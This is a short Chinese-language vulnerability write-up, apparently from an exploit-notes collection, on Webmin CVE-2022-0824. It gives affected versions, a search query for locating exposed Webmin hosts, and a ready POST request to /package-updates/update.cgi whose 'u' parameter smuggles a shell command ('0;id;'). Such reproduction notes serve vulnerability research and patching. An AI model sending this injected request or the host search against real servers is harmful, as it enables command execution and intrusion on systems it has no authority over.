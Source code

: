 # 

# Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

```
Webmin < 1.990
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291022969.png)

登录后发送请求包

```
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![image-20220829102233314](./images/202208291022378.png)
